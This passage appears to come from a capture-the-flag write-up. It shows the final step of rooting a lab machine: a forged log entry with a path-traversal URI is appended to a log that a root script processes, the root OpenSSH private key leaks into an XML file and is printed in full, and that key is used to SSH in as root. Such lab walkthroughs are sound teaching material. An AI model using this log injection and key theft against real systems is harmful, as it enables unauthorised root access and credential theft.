So now all we have to do is manually add our own log to the end. Something like this should do nicely

```bash
echo '200||10.10.16.3||user agent||/../../../../../../tmp/stby/img.jpg' >> /opt/panda_search/redpanda.log
```

now if we run 

```bash
tail /opt/panda_search/redpanda.log
```

we should see our log right at the end and so should the script next time it runs.

After waiting a few minutes for the script to run again, if we run 

```bash
cat /tmp/stby/gotit_creds.xml
```

we should get back something like this

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE X>
<credits>
  <author>damian</author>
  <image>
    <uri>/../../../../../../tmp/stby/img.jpg</uri>
    <views>8</views>
    <extra>-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW
QyNTUxOQAAACDeUNPNcNZoi+AcjZMtNbccSUcDUZ0OtGk+eas+bFezfQAAAJBRbb26UW29
ugAAAAtzc2gtZWQyNTUxOQAAACDeUNPNcNZoi+AcjZMtNbccSUcDUZ0OtGk+eas+bFezfQ
AAAECj9KoL1KnAlvQDz93ztNrROky2arZpP8t8UgdfLI0HvN5Q081w1miL4ByNky01txxJ
RwNRnQ60aT55qz5sV7N9AAAADXJvb3RAcmVkcGFuZGE=
-----END OPENSSH PRIVATE KEY-----</extra>
  </image>
  <totalviews>9</totalviews>
</credits>
```

Which means the root private SSH key is this

```
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW
QyNTUxOQAAACDeUNPNcNZoi+AcjZMtNbccSUcDUZ0OtGk+eas+bFezfQAAAJBRbb26UW29
ugAAAAtzc2gtZWQyNTUxOQAAACDeUNPNcNZoi+AcjZMtNbccSUcDUZ0OtGk+eas+bFezfQ
AAAECj9KoL1KnAlvQDz93ztNrROky2arZpP8t8UgdfLI0HvN5Q081w1miL4ByNky01txxJ
RwNRnQ60aT55qz5sV7N9AAAADXJvb3RAcmVkcGFuZGE=
-----END OPENSSH PRIVATE KEY-----
```

If we save this to our local machine and call it `id_rsa`, we can then SSH into the box with

```bash
ssh -i id_rsa root@10.10.11.170
```

and we're done!